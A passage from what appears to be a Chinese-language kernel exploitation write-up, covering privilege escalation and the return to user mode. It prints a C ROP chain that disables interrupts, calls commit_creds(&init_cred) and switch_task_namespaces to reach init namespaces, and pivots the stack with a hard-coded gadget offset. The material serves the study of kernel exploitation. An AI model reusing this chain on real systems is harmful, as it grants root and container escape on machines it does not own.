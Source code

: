 ```assembly
```

禁用 interrupt 之后，先确保`rbp-0x58` 指向旧进程的flags—`0x400100`，再跳转到 `__do_softirq()` 末尾，接下来我们就能从syscall context继续。

#### 4-4-2 提权并返回到用户态

现在我们从syscall context 返回，ROP 就能继续

- （1）调用 `switch_task_namespaces(current, &init_nsproxy)`
- （2）调用 `commit_creds(&init_cred)`
- （3）返回到用户态

`bpf_get_current_task()` 可以返回当前进程的`task_struct` （只需要用gadget串起来即可）。

为了返回到用户态，最简单的方法是使用 `do_softirq ` 的结尾将旧的栈指针 pop 到 rsp，然后返回到 syscall stack（利用 gadget `add rsp, <offset>; ret`） 。这样就不会破坏syscall call stack。

一开始，我们构造好 `rcx` 和 `r11` 后直接返回到 `syscall_return_via_sysret`，但是我们碰到了保护页。所以还是首先运行 `__do_softirq` 结尾，然后运行提权代码，接着运行 `do_softirq` 结尾，以缩短payload。

最终的ROP chain 如下：

```c
int i = 0;
#define _rop(x) do { if ((i+1)*8 > rop_length) { puts("ROP TOO LONG"); exit(EXIT_FAILURE);} rop[i++] = (x); } while (0)

// clear interrupts
_rop(kernel_base + CLI_OFF);
    
// make rbp-0x58 point to 0x40010000
// this is just a random place in .text
_rop(kernel_base + POP_RBP_OFF);
_rop(kernel_base + OLD_TASK_FLAGS_OFF + 0x58);
    
/* Cleanly exit softirq and return to syscall context */
_rop(kernel_base + __DO_SOFTIRQ_OFF + 418);
    
// stack frame was 0x60 bytes
for(int j = 0; j < 12; ++j) _rop(0);

/* We're already on 128 bytes here */

// switch_task_namespaces(current, &init_nsproxy)
_rop(kernel_base + BPF_GET_CURRENT_TASK_OFF);
_rop(kernel_base + MOV_RDI_RAX_OFF);
_rop(kernel_base + POP_RSI_OFF);
_rop(kernel_base + INIT_NSPROXY_OFF);
_rop(kernel_base + SWITCH_TASK_NAMESPACES_OFF);

// commit_cred(&init_cred)
_rop(kernel_base + POP_RDI_OFF);
_rop(kernel_base + INIT_CRED_OFF);
_rop(kernel_base + COMMIT_CREDS_OFF);

// pass control to system call stack
// this is offset +0xc0 from our rop chain
// target is at   +0x168
_rop(kernel_base + 0x28b2e4); // add rsp, 0x90; pop rbx; pop rbp; ret
```
